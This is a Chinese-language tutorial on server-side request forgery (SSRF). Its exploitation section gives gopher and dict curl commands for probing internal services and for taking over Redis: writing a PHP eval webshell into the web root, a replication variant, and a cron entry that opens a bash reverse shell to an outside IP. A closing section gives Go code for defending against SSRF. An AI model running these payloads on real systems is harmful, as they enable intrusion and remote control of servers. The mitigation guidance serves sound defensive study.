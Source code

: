 ## 0x01 SSRF漏洞原理

### 1.1 简介	

​	SSRF（Server-Side Request Forgery：服务端请求伪造）是一种由攻击者构造形成，由服务端发起请求的一个安全漏洞。攻击者在未能获取服务器权限时，利用存在缺陷的应用作为代理远程攻击内网的服务器。

## 0x02 SSRF漏洞利用

### 2.1 信息收集

#### 2.1.1 web请求

```
curl gopher://192.168.100.1:80/_GET%20%2F%20HTTP%2F1.1%0D%0AHost%3A%20192.168.100.1%0D%0AAccept-Encoding%3A%20gzip%2C%20deflate%0D%0AConnection%3A%20close%0D%0A%0D%0A
```
#### 2.1.2 端口探测

```
curl "dict://172.34.178.16:22/"
```
### 2.2 Redis漏洞

#### 2.2.1 Redis命令

- Redis秘钥

```
curl "dict://127.0.0.1:6379/auth:''"
```

- Redis键值

```
curl "dict://127.0.0.1:6379/set:flag:123"
curl "dict://127.0.0.1:6379/keys:*"
curl "dict://127.0.0.1:6379/get:flag"
```
#### 2.2.2 Getshell操作

- 直接写webshell

```
dict://127.0.0.1:6379/flushall
dict://127.0.0.1:6379/set:x:'<script:language="php">@eval($_GET["chaos"]);</script>'
dict://127.0.0.1:6379/config:set:dir:/var/www/html/
dict://127.0.0.1:6379/config:set:dbfilename:test.php
dict://127.0.0.1:6379/save
```


- 主从复制写webshell

```
192.168.8.185:6379> set x '<?php eval($_GET["chaos"]);?>'
dict://127.0.0.1:6379/slaveof:192.168.8.185:6379    # 设置主从模式
dict://127.0.0.1:6379/get:x
dict://127.0.0.1:6379/config:set:dir:/var/www/html/
dict://127.0.0.1:6379/config:set:dbfilename:test.php
dict://127.0.0.1:6379/save
dict://127.0.0.1:6379/slaveof:no:one

dict://127.0.0.1:6379/flushall
dict://127.0.0.1:6379/set:x:'%5Cn%5Cn*%2F1%20*%20*%20*%20*%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.33.6.150%2F9999%200%3E%261%5Cn%5Cn'
dict://127.0.0.1:6379/config:set:dir:/var/spool/cron/
dict://127.0.0.1:6379/config:set:dbfilename:root
dict://127.0.0.1:6379/save
```

## 0x03 SSRF漏洞修复

### 3.1 去除url中的特殊字符

​	防止url解析差异绕过

### 3.2 域名内网IP过滤

#### 3.2.1 内网IP判断

```
// IsLocalIP 判断是否是内网ip
func IsLocalIP(ip net.IP) bool {
    if ip == nil {
        return false
    }
    // 判断是否是回环地址, ipv4时是127.0.0.1；ipv6时是::1
    if ip.IsLoopback() {
        return true
    }
    // 判断ipv4是否是内网
    if ip4 := ip.To4(); ip4 != nil {
        return ip4[0] == 10 || // 10.0.0.0/8
            (ip4[0] == 172 && ip4[1] >= 16 && ip4[1] <= 31) || // 172.16.0.0/12
            (ip4[0] == 192 && ip4[1] == 168) // 192.168.0.0/16
    }
    // 判断ipv6是否是内网
    if ip16 := ip.To16(); ip16 != nil {
        // 参考 https://tools.ietf.org/html/rfc4193#section-3
        // 参考 https://en.wikipedia.org/wiki/Private_network#Private_IPv6_addresses
        // 判断ipv6唯一本地地址
        return 0xfd == ip16[0]
    }
    // 不是ip直接返回false
    return false
}
```

#### 3.2.2 dns解析ip

```
site := "http://www.test.com"
ourl, err := url.Parse(site)
if err != nil{
	return false
}
ip, err := net.LookupIP(ourl.Hostname())	// dns解析IP
if err != nil{
	return false
}
```

### 3.3 不要使用URL跳转

​	检查是否为内网资源是在请求之前发起的，如果攻击者在请求过程中通过URL跳转访问内网则可以绕过第一种防御策略。

```
client := &http.Client{
    CheckRedirect: func(req *http.Request, via []*http.Request) error {
        // 跳转超过10次，也拒绝继续跳转
        if len(via) >= 10 {
            return fmt.Errorf("redirect too much")
        }
        statusCode := req.Response.StatusCode
        if statusCode == 307 || statusCode == 308 {
            // 拒绝307和308跳转访问(此类跳转可以时POST请求，风险极高)
            return fmt.Errorf("unsupport redirect method")
        }
        // 判断ip
        ips, err := net.LookupIP(req.URL.Host)
        if err != nil {
            return err
        }
        for _, ip := range ips {
            if IsLocalIP(ip) {
                return fmt.Errorf("have local ip")
            }
            fmt.Printf("%s -> %s is localip?: %v\n", req.URL, ip.String(), IsLocalIP(ip))
        }
        return nil
    },
}
```

### 3.4 将域名转换成IP访问

​	发起一次HTTP请求需要先请求DNS服务获取域名对应的IP地址，如果攻击者有可控的DNS服务，就可以通过DNS重绑定绕过前面的防御策略。

```
dialer := &net.Dialer{}
dialer.Control = func(network, address string, c syscall.RawConn) error {
    // address 已经是ip:port的格式
    host, _, err := net.SplitHostPort(address)
    if err != nil {
        return err
    }
    fmt.Printf("%v is localip?: %v\n", address, IsLocalIP(net.ParseIP(host)))
    return nil
}
transport := http.DefaultTransport.(*http.Transport).Clone()
// 使用官方库的实现创建TCP连接
transport.DialContext = dialer.DialContext
// 使用此client请求，可避免DNS重绑定风险
client := &http.Client{
    Transport: transport,
}
```



